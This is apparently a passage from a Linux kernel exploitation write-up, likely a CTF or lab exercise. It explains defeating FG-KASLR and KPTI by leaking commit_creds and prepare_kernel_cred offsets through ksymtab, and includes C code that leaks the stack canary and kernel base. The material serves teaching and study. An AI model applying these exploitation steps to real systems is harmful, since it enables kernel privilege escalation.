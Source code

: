 Hence, to leak memory, we first have to find addresses of the functions which are not effected by `FG-KASLR` (we're lucky that this mitigation doesnt randomize every kernel function). 

+ The functions from `_text` (kernel image base) to `__x86_retpoline_r15` (image base + 0x400dc6) are all uneffected by FG-KASLR.
+ `commit_creds` and `prepare_kernel_cred` do not lie in this region and hence we can't proceed directly.
+ `swapgs_restore_regs_and_return_to_usermode` is the function which sweetly defeats the `KPTI` (separation of page tables in the kernel and usermode) mitigation and thus allowing us to return to userland. To our relief, this function is also uneffected by FG-KASLR. For simplicity we will call this function as `kpti trampoline`.

So, how do we leak `commit_creds` and `prepare_kernel_cred`?

## Leaking through ksymtab

Each of these functions (commit_creds and prepare_kernel_cred) have a kernel symbol table into which their offset is stored from the kernel base.

```sh
struct kernel_symbol {
	  int value_offset;
	  int name_offset;
	  int namespace_offset;
};
```
On inspection, we find that the symbol table functions are not effected by FG-KASLR.

```sh
cat /proc/kallsyms | grep ksymtab_commit_creds
-> ffffffffb7f87d90 r __ksymtab_commit_creds
cat /proc/kallsyms | grep ksymtab_prepare_kernel_cred
-> ffffffffb7f8d4fc r __ksymtab_prepare_kernel_cred
```

Hence , we can  read the offset value of each of these symbol tables and get the addresses of the actual functions thus completely bypassing `FG-KASLR`.

## Getting necessary Leaks

Since we can read from the entire stack, we can find a lot of kernel pointers on the stack from which we can obtain kernel base.

```c
void get_leak(void){
    unsigned n = 40;
    unsigned long leak[n];
    read(fd, leak, sizeof(leak));
    canary = leak[16];
    image_base = leak[38] - 0xa157ULL;
    printf("[+] canary -> 0x%lx\n",canary);
    printf("[+] image_base -> 0x%lx\n",image_base);
}
```
